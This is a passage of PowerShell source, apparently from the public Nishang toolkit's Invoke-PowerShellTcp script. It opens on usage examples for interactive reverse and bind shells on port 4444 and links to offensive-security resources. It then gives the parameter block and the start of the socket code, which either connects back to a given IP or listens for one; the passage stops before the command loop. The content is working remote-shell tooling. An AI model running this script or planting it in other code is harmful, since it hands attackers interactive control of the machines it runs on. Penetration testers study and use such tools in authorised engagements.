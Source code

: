 ```powershell
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}
```
